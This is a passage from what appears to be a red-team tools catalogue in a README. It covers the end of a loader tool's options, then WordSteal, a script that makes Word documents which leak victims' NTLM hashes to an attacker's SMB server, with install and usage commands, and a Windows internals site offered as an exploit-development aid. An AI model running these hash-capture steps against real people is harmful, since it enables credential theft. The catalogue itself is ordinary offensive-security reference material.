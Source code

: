```
  -sha256
        Provides the SHA256 value of the loaders (This is useful for tracking)
```

![image](https://user-images.githubusercontent.com/100603074/216729312-6e03f5d2-29a7-4190-8187-daecebfc6a9c.png)

*Image used from https://www.blackhatethicalhacking.com/tools/freeze/*

### [🔙](#tool-list)[WordSteal](https://github.com/0x09AL/WordSteal)

This script will create a Microsoft Word Document with a remote image, allowing for the capture of NTML hashes from a remote victim endpoint.

Microsoft Word has the ability to include images from remote locations, including a remote image hosted on an attacker controlled SMB server. This gives you the opportunity to listen for, and capture, NTLM hashes that are sent when an authenticated victim opens the Word document and renders the image. 

**Install:** 

```
git clone https://github.com/0x09AL/WordSteal
cd WordSteal
```

**Usage:** 

```bash
# Generate document containing 'test.jpg' and start listener
./main.py 127.0.0.1 test.jpg 1

# Generate document containing 'test.jpg' and do not start listener
./main.py 127.0.0.1 test.jpg 0\n
```

![image](https://user-images.githubusercontent.com/100603074/217653886-09bf9eba-a117-47b9-99b4-12fb2d73ef44.png)

*Image used from https://pentestit.com/wordsteal-steal-ntlm-hashes-remotely/*

### [🔙](#tool-list)[NTAPI Undocumented Functions](http://undocumented.ntinternals.net/)

This site provides information on undocumented Windows internals, system calls, data structures, and other low-level details of the Windows operating system. 

It can be a valuable resource for individuals who want to explore the internals of Windows for various purposes, including vulnerability analysis, exploit development, and privilege escalation.

When developing exploits, understanding the internals of the target system is crucial. This site can help develop exploits by leveraging the low-level undocumented aspects of Windows.

**Usage:** 

Visit [http://undocumented.ntinternals.net/](http://undocumented.ntinternals.net/)

![image](https://github.com/A-poc/RedTeam-Tools/assets/100603074/41b424f3-053c-440b-b0fd-235e95980d9a)
